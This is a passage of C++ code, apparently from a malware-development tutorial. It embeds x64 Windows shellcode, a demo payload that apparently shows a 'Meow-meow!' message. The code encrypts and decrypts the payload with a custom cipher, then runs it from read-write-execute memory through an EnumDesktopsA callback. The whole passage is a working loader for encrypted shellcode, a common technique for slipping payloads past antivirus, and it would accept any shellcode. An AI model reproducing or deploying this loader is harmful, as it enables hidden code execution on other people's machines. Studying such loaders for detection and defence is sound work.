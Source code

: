 ```cpp
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

